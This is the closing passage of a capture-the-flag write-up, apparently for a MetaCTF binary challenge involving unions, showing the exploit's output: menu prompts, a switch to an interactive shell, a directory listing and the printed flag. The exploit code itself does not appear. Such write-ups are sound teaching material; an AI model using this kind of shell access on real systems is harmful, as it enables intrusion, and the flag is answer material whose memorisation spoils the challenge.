 ```
b'\nVariable created\nWhat would you like to do?\n1. Create new object\n2. Display objects\n3. Edit Object\n4. Delete Object\n5. Exit'
b'\nWhat index would you like to modify'
b'?\nWhat type would you like?'
b'\n\n1. String\n2. Integer\n3. Long Long\n4. Character\nWhat size would you like your string to be'
b'\nWhat is your data'
b'\nVariable created\nWhat would you like to do?\n1. Create new object\n2. Display objects\n3. Edit Object\n4. Delete Object\n5. Exit\n'
[*] Switching to interactive mode
$ ls
chall
chall.sh
flag.txt
$ cat flag.txt
MetaCTF{Unions_Can_Be_Problematic}
```
Thanks for reading!
